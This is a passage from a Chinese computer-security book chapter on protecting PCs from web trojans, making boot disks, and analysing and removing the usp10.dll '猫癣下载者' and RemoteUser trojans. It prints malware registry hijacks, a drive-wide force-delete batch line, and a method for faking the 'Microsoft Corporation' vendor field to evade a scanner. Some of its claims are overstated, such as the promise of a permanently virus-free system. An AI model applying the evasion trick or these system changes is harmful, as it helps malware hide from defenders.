现在，许多操作系统、应用软件和网站自身等，存在的各种安全漏洞依然非常多。许多黑客和网络攻击者很容易利用这些安全漏洞进行“网页挂马”，进而传播病毒木马，最终达到各类形式的网络欺诈目的。

那么，我们作为普通的电脑用户，又该如何防范这种以“网页挂马”为手段的常见网络欺诈呢？这里给大家介绍一款能够防御大部分网页木马的工具，它就是“畅游巡警”，下载地址为：“http://www.newhua.com/soft/67133.htm”。

“畅游巡警”能够针对网页、搜索引擎、BBS社区、即时通信（QQ、msn）、电子邮件中的恶意URL（网络链接）进行分析、标记警示、过滤处理等。在用户使用浏览器浏览网页之前，预先将网页中的病毒和其它恶意代码“杀掉”，确保访问的是一个清洁绿色的网页。

在下载和安装完毕“畅游巡警”后，它就以插件的形式内嵌在IE浏览器中，如图11。

我们可以单击其中的“设置畅游巡警”菜单来对“畅游巡警”进行系统设置，如图12。

而且，对于一些常见的网站，可以设置“信任站点”。在菜单中选择“信任站点”，然后在输入框中输入信任的站点地址，在单击“添加”按钮即可。最后，单击“确定”按钮保存设置就可以了，如图13。

这样，一旦浏览到恶意网页，“畅游巡警”就会马上弹出警告窗口，如图14，从而提醒我们要小心为妙。


“畅游巡警”是数据安全实验室（DSWLab）2008年出品一款优秀的免费产品，其设计融入了国际一流的网页病毒查杀技术，拥有功能强大、高效准确的恶意网站识别与报警能力。“畅游巡警”具备成熟的未知智能防御系统，对于未收录进数据库的网页病毒进行动态分析、实时阻止及清除。有效避免网页病毒、恶意网页、恶意下载、钓鱼网站等威胁，帮助用户安全、高效使用互联网资源，是上网必备软件。

## 8.4 病毒攻防365天


从电脑上网的那天开始，注定了病毒和木马是不甘寂寞的，几乎可以负责的说，所有的互联网电脑都中过病毒。所以，在病毒横行的今天，我们有必要学习杀毒技术，保护自己的电脑安全和信息安全。

### 8.4.1 打造自己的病毒入侵防御工事

杀毒做的好，不如提前预防好！这里教大家如何在中毒之前进行一些防范操作，这样在中毒之后就能够得心应手的开展杀毒战斗了。

#### 1、锻造你的万能启动盘

在电脑中毒后，尤其是中了一些恶性病毒之后，系统往往无法正常启动，此时我们的电脑数据便非常危险了！所以，在电脑没有中毒之前做一个 Windows 启动盘将会是非常有必要的。

> 什么是启动盘呢？简单的说，就是装有能够启动电脑的操作系统的载体！比如目前常见的硬盘、光盘、U盘等，都可以拿来制作启动盘。

启动盘的最大作用是在系统崩溃或无法正常进入系统时，利用它引导系统，从而进行后

## 第八章 红客路线和狙击入侵

续的一系列操作。比如：

- 1、恢复被删除或破坏的系统文件；
- 2、删除顽固病毒；
- 3、有一些特定的软件必须在纯 DOS 模式下使用，如：UCDOS；
- 4、为了测试一些软件或运行一些系统硬件检测工具，了解硬件确切信息；
- 5、运行硬盘修复工具，解决硬盘坏道等错误问题；
- 6、BIOS 系统密码丢失，可运行一些恢复工具。

启动盘和普通盘的区别在于，这种载体的第一个扇区里有可启动的系统文件，这些文件一般是看不到的。另外，从 WIN95 到 WINXP 都能制作可启动盘。

这里需要注意的还有：启动盘并不仅仅指的就是 DOS 启动盘，现在有很多基于 WINDOWS PE 技术的启动盘，功能更为强大，能做的事情更多！比如下面将要介绍的 WINPE 启动盘。

#### 2、在 WINXP 下制作启动盘

首先需要下载一款叫“WINPE 毛桃最终修改版”的启动盘制作工具，然后解压运行 SETUP 目录中的 PESETUP.EXE 文件，会弹出一个 CMD 窗口，在窗口中选择 4，表示制作一个 U 盘启动盘，如图 15。

此时回车，它会提示你输入 U 盘的盘符。如果你的 J 盘是 U 盘盘符，那么就输入“J”(不要输入“J：”，也就是不要带冒号)。

输入“J”之后，会提示“按任意键继续”，此时随便按一个键即可。然后会弹出一个 U 盘格式化工具，我们首先选中 U 盘盘符，然后选择“FAT32”文件系统进行 U 盘格式化，如图 16。

此时单击“开始”按钮，格式化后会弹出一个对话框，单击“确定”即可，如图 17。

然后单击“关闭”按钮关闭这个 U 盘格式化工具，这时会弹出一个 GRUB2U 引导工具，此时选中 U 盘（通常会出现两个选择项，一个是 HD0，一个是 HD1，可以通过观察磁盘容量判断哪个是 U 盘），然后单击“安装”按钮即可，如图 18。

此时会弹出一个 CMD 窗口，要求按下任意键，如图 19。

在按下任意键后，这个窗口会自动关闭，然后来到刚才的 GRUB2U 引导工具中，单击“关闭”按钮。此时会提示“您的 U 盘已经成功格式化并写入 GRUB 引导”，按下任意键即可，如图 20。

在按下任意键后，会提示输入密码，这里笔者输入密码“123”。输入完密码之后，会提示“输入任意键继续”，我们按下任意键，之后工具会开始复制文件，大家稍等一会儿，如图 21。

复制完毕后，会提示“已经成功将镜像安装到了 U 盘”，最后按下任意键退出程序，即可完成 WINPE 启动盘的制作，如图 22。

### 8.4.2 安全搭配提升系统防病能力

保护工作做得再好，病毒也会趁虚而入，所以我们还要学习一些具体的电脑病毒查杀方法。

#### 1、绝妙设置让我狙击所有计算机病毒

目前大部分用户使用的操作系统应该还是 WINDOWS 2000/XP，这里笔者给大家介绍一招，克死所有病毒！

首先最好是新装的操作系统，或者你能确认当前系统无毒，这样就保证了以下操作是在无毒环境中进行。在“我的电脑”按鼠标右键，选择“管理”，如图 31。

在弹出的“计算机管理”窗口中，依次选择“系统工具”-“本地用户和组”-“用户”，再其上按鼠标右键，选择“新用户”，如图 32。

在弹出的“新用户”窗口中，分别输入两个用户 USER1 和 USER2，密码可以简单地设置为 123，如图 33。当然，为了计算机的安全，也可以设置更加复杂的密码。创建完毕后，默认这两个用户是属于 USER 用户组，也就是普通用户权限。

此时来到 IE 目录下，我的路径是“C:\Program Files\Internet Explorer”。在 IE 执行文件上按鼠标右键，选择“发送到”-“桌面快捷方式”，把 IE 快捷图标发送到桌面，如图 34。

此时重启电脑，使用 USER2 用户来登录系统。然后在新建的 IE 快捷方式上按鼠标右键

选择“运行方式”，如图 35。

然后在弹出的“运行身份”对话框中，选择使用用户 USER1 来运行，接着单击“确定”按钮进行保存，如图 36。

这样，当上网浏览的时候，就点这个 IE 快捷方式，使用 USER1 账户去上网。就算你浏览了恶意网页，也不必再担心中招了！因为你当前的系统活动用户是 USER2，而 USER1 是不活动的用户。如果恶意代码对你的系统搞破坏，要么执行不了，要么被修改掉的仅仅是 USER1 的一个配置文件罢了。

一般来说，病毒是无法跨越用户来操作的，因为 WINDOWS 系统中各用户之间是独立的。所以，只要每次使用 USER1 用户来代理上网就是了，但不要使用 USER1 来登录系统！如果 USER1 以前中过什么网页病毒，这时就会被激活！

只要采用了双用户配合，那么无论你中了多少网页病毒，都只对染毒的用户有效，但前提是不得用染毒用户登录系统，这样你的系统将永远无毒！

### 8.4.3 卷起袖子看我杀马实战

在前面给大家介绍了各种计算机病毒的防御查杀知识，这里就来结合实际进行演示操作。

#### 1、惊现世界第一杀毒软件

BitDefender，中文译名为“比特梵德”，简称“BTD”，是罗马尼亚出品的一款老牌杀毒软件，拥有超大病毒库，目前被誉为世界第一的杀毒软件。

当他碰到中国的 360，于是——360 杀毒出现了！大家可以到 http://sd.360.cn/ 进行下载使用。下载完毕后初次运行会自动从服务器上下载 360 杀毒绿色版软件（你下载的文件其实只是一个下载器，真正的软件在服务器上），如图 37。

等待下载完毕后，就可以单击“下一步”按钮进行快速安装了，360 杀毒绿色版主界面如图 38。

只要单击“快速扫描”、“全面扫描”或者“自定义扫描”这三个按钮其中一个即可开始进行系统扫描了。这款软件的操作是非常“傻瓜化”的，它会自动删除检查出来的危险项目。同时，软件还提供了一个非常有用的功能，就是“例外设置”，如图 39。

在这里可以输入你的黑客工具目录，这样软件在扫描过程中就会跳过设置的目录不进行扫描，从而杜绝黑客工具被误杀。最难能可贵的是，这款软件提供免费升级服务，所以病毒库是非常新的。

#### 2、杀毒之追捕“逃脱”还原卡的猫癣下载者

2009 年的一天，大量网友发现自己的电脑突然间慢如“老牛”，硬盘中同时出现了很多莫名其妙的 usp10.dll 文件，即使重装系统也无济于事。原来，这是一头名为“犇牛”的恶性木马，它采用了特别技术，在系统重装后仍能“复活”，完全不同于其它恶性木马常用的“复活”方式，使普通用户很难用以往的系统重装方式来“自救”。此外，“犇牛”还使用了一个名为“安软杀手”的帮凶对主流杀软进行卸载和破坏，屏蔽安全厂商的网站，致使受害用户无法通过登录安全网站或下载安全软件获得帮助。由于许多杀软把这个病毒称作“猫癣下载者”，我们这里也就如此称呼。

##### ① 中毒分析

笔者“有幸”中此病毒，首先是 360 被关闭（360 虽然算不上杀毒界巨擎，但是有个很有用的作用，就是通过它来判断系统是否中毒。如果 360 被关闭，则系统一定中毒了），然后系统运行缓慢。打开内核级的 WSYSCHECK 工具，可以看到有很多标示为红色的进程，如图 40。

按照笔者以往的思路，先卸载和删除病毒模块，然后删除可疑启动项。本以为已经轻易解决此病毒，可是在“杀毒”后不久，笔者的系统中又是一片“红海”！

此时只好使出杀手锏，GHOST 还原！没想到，就算还原了系统，当笔者再次使用 WSYSCHECK 进行进程查看时，还是“红旗飘飘”，惨不忍睹！

两次失败，两次教训，现在改变下思路！马上打开资源管理器，依次选择“工具”-“文件夹选项”-“查看”，在“高级设置”下的选项框中把“隐藏受保护的操作系统文件”前的勾去掉，再勾选“显示所有文件和文件夹”选项，如图 41。

确定后，此时浏览硬盘，会看到很多“usp10.dll”文件，浩浩荡荡，汪洋一片，惊愕中……

系统中怎么会如此之多的“usp10.dll”文件呢？揣着这个疑问，笔者查询了很多资料，原来 usp10.dll 是系统文件，正常情况下出现在 windows\system32 目录和 windows\system32\dllcache 目录。同时，通过“tasklist /m usp10.dll”可以看到，很多系统进程都调用了这个 DLL 文件。

细心分析了一下，发现“usp10.dll”文件全部存在于可执行文件的目录中，此时一个闪念，想到了另一个文件“ws2_32.dll”。使用过“ws2_32.dll”文件阻止 QQ 运行的朋友一定知道，应用程序通常是在当前目录或在环境变量“set path=”指定的路径下寻找及调用 DLL 文件的。

笔者在桌面或其它文件夹下发现了 usp10.dll，这就是病毒做的手脚，它想的就是，当用户执行当前目录下的 EXE 程序时，病毒文件 usp10.dll 会被加载。而这个“usp10.dll”文件几乎是所有应用程序都会调用的，所以如果我们创建一个无效的“usp10.dll”文件，然后运行同目录的 EXE 文件，就会提示错误，如图 42。

于是，杀毒思路浮出水面，先来了解下“猫癣下载者”的运作步骤。

- 1、释放文件

```
%windir%\jiocs.dll
%windir%\Tasks\1
%tmp%\98989898
%sys32dir%\sadfasdf.jpg
%sys32dir%\ctfmon.exe
```

注：%windir% 对应于 C:\windows；%sys32dir% 对应于 C:\windows\system32。

- 2、让 usp10.dll 挟持常用软件

遍历非系统所在目录的所有驱动器，凡发现目录中存在 exe 后缀的文件，则将%windir%\tasks\1 文件拷贝过去，命名为 usp10.dll。这样，即使重装系统病毒还会重新启动。

- 3、调用 TerminateProcess 函数结束安全软件的驻留进程。

- 4、添加对迅雷的映像劫持，使迅雷无法启动，具体如下：

```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Thunder5.exe"Debugger" REG_SZ "svchost.exe"
```

- 5、调用 360 保险箱卸载参数卸载 360 保险箱，并通过修改注册表关闭 360 监控。

- 6、创建线程关闭冰刃之类的安全软件窗口和更改显示隐藏文件。

若当前窗口的 class 为“AfxControlBar42s”，则向此窗口发送 WM_CLOSE 消息，并模拟键盘的回车键。然后修改以下注册表键值，用以不显示隐藏文件：

```
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced
"Hidden" REG_DWORD 0
"SuperHidden" REG_DWORD 0
"ShowSuperHidden" REG_DWORD 0
```

- 7、释放病毒启动，并尝试直接替换输入法程序 ctfmon.exe。

- 8、下载大量盗号木马病毒到用户电脑。

##### ② 手工杀毒

手工查杀虽然原始和劳神费力，但是可以提高用户的系统操作能力，并且可以学到很多杀毒知识。下面就来介绍如何手工杀毒。

首先使用 WSYSCHECK 卸载掉和删除掉所有的病毒 DLL 模块，然后使用系统自带的搜索功能搜索所有磁盘中大小约为 38KB 的 usp10.dll 文件（前提是文件夹选项已经设置为“显示所有文件和文件夹”，否则找不到 usp10.dll 文件），其它 400K-500K 的是系统文件，不要删除。因为 usp10.dll 有变种，并不都是 38K。这里说的 38K，是笔者电脑上文件感染的症状。

搜索到后，查看下文件的生成日期，很容易就能判断出该文件是病毒还是系统文件。最后删除 WSYSCHECK 中显示为红色的病毒服务，重启电脑即可。

##### ③ 工具杀毒

所谓“兵来将挡，水来土掩”，既然病毒来势凶凶，我们就用专杀工具，下点猛药。笔者使用的是“金山系统急救箱”，扫描后可以看到所有的病毒模块，如图 43，此时单击“立即清除”按钮即可。

上面的操作其实只是删除了病毒附加在系统进程中的模块，但是那些“满山遍野”的“usp10.dll”文件还没有清除，此时使用一款名为“山寨猫癣下载器专杀工具”进行查杀即可，下载地址为 http://dragonkiss.ys168.com/，扫描过程如图 44。

在使用此款工具前，最好先备份 SYSTEM32 下面的 usp10.dll，否则此程序也会被删除。此外，对于无法删除的“usp10.dll”，工具会自动将其改名为类似"_s2p4s2p4"的文件（无后缀）。经过这些操作，再次使用 WSYSCHECK 进行系统进程查看，就可以发现可疑模块已经全部消失了。

笔者在网络上查询此病毒的查杀方法时，看到很多地方谈到还要删除 Thumbs.db 文件。其实 Thumbs.db 是用于 Microsoft Windows XP 或 MAC OS X 系统缓存缩略图的数据库文件，它保存在每一个包含图片的目录中。

> 小知识：Thumbs.db 文件

Thumbs.db 文件可缓存的图像文件格式包括：jpeg、bmp、gif、tif、pdf 和 htm，它是一个数据库，里面保存了这个目录下所有图像文件的缩略图（格式为 jpeg）。当我们以缩略图方式查看时（展示一幅图片或电影胶片），将会生成一个 Thumbs.db 文件，一般可以在带有图片的文件夹中找到，其体积随着文件夹中图片数量增加而增大。

要想系统不自动生成它，我们打开资源管理器，选择“工具”-“文件夹选项”-“查看”，然后勾选“不缓存缩略图”，最后“确定”即可。

## 第八章 红客路线和狙击入侵


如果想要删除已经存在于硬盘中的 Thumbs.db 文件，可以利用系统的“搜索”功能把所有 Thumbs.db 文件找出来再删除。或者我们把以下代码另存在一个批处理文件中，比如 DelThumbs.cmd 文件，执行后即可将硬盘中的所有 Thumbs.db 文件全部删除！

```
FOR %%a IN (C: D: E: F: G: H: I: J: K: L: M: N: O: P: Q: R: S: T: U: V: W: X: Y: Z:) DO DEL /f/s/q/a %%a\Thumbs.db
```

经过笔者研究，其实这个 Thumbs.db 文件和病毒没有任何联系，网上传闻“病毒通过 Thumb.db 来自启动”更是天方夜谭。其实使用一款结构化存储浏览器就可以看到，Thumbs.db 文件就是图片数据 + 一些二进制数据的混合体。

#### 3、利用内核工具深度查杀新时代木马

前面介绍了如何清除电脑病毒，本节就来介绍如何清除电脑中的木马。木马和病毒的查杀有些类似，但是也有不同。

RemoteUser 是新推出的一款木马，如图 45，其屏幕捕捉功能非常不错，几乎没有延迟，看来程序在数据传输上处理得非常好。


一般在中了木马之后，我们都会使用 WSYCHECK 来查杀这些 DLL 线程插入木马。但奇怪的是，中了 RemoteUser 木马后，使用 WSYCHECK 无法查找到可疑服务和陌生进程。此时，笔者只好使用 360 安全卫士的“系统全面诊断”功能来查看系统的可疑服务和进程，结果发现了一个可疑的服务“BITS”，如图 46。


通过对右侧显示的详细信息的了解，可以看到这个服务端路径为"c:\windows\system32\mpeg4c32.dll"。很明显，这是一个 DLL 线程插入木马，它把自己的线程插入到目标进程中，从而达到“无进程”、“无端口”的目的。

在知道了这个 DLL 木马的文件路径和服务名称之后，现在就可以到 WSYCHECK 中找到这个可疑的 BITS 服务了，如图 47，BITS 居然在 WSYCHECK 中显示为正常可信程序。

以前使用 WSYCHECK 查找 DLL 线程插入木马和 ROOTKIT 木马，几乎屡试不爽，为何现在 WSYCHECK 居然都无法提示陌生进程了呢？经过仔细研究后发现，原来这个 BITS 服务修改了自身的“文件厂商”项为"Microsoft corporation"，而 WSYCHECK 就是依据“文件厂商”内容来“片面”判断文件是否可疑的，所以就被狡猾的木马蒙蔽了。

那为何使用 360 安全卫士能够查找出这个可疑服务呢？原来 360 安全卫士使用的是 MD5 比对，而所有文件的 MD5 散列都是唯一的，所以这样就导致木马现形了。

现在我们已经知道了这个木马的 DLL 文件路径，就可以通过 WSYCHECK 的模块卸载功能来卸载和清除它了。为了能够显示这个 DLL 文件，首先必须去掉“模块简洁显示”前的勾，如图 48。

这样，WSYCHECK 就会把当前进程所调用的所有 DLL 文件全部显示出来。经过笔者研究，这款木马的服务端文件其实就隐藏在 SVCHOST.EXE 进程中。选中这个可疑的 SVCHOST.EXE 进程，然后在下面的模块列表中找到这个"c:\windows\system32\mpeg4c32.dll"文件，如图 49。

可以看到，因为这个"c:\windows\system32\mpeg4c32.dll"文件的“文件厂商”内容


## 第八章 红客路线和狙击入侵

被狡猾的作者修改成了"Microsoft Corporation"，所以这个可疑的 DLL 模块在 WSYCHECK 中几乎是隐形的。

现在选中"c:\windows\system32\mpeg4c32.dll"模块，按鼠标右键，在弹出的快捷菜单中选择“卸载模块并删除文件”。注意：这里不要使用 WSYCHECK 的“全局卸载模块”功能（把这个模块从所有进程中清除），因为容易引起死机。

在经过了结束进程，删除文件的步骤后，现在来到 WSYCHECK 的“服务管理”页，选中"BITS"这个服务，按鼠标右键选中“删除服务和文件”即可，如图 50。

这样，这个蒙蔽 WSYCHECK 的木马就被我们清除掉了。我们知道，它是通过修改“文件厂商”内容来达到蒙蔽 WSYCHECK 的目的，那么这里就来讲解下如何制定程序的“文件厂商”内容。


由于 RemoteUser 这款木马是以 Delphi 开发的，所以这里就通过 Delphi 来讲解如何指定程序的“文件厂商”内容。

首先新建项目窗体，然后选择"project"下的"options"选项，如图 51。

在弹出的"project options"选项窗口中找到"version info"版本信息页面，双击"companyname"公司名称右侧的选择项，然后写入"Microsoft Corporation"（微软公司），即可实现对 WSYCHECK 的蒙蔽了，如图 52。

现在生成一个 TEST.EXE 文件并且运行，然后通过 WSYCHECK 进行查看，可以发现 TEST.EXE 显示为正常进程（陌生进程显示为红色，正常进程显示为黑色），如图 53。

## 8.5 小结

在本章介绍了电脑安全和信息安全的许多知识，大家通过对这些知识的掌握，一定能够大大提高使用计算机时的安全性，这样就不会出现诸如病毒入侵后如何修复，个人账户被病毒木马记录后如何处理的窘境了。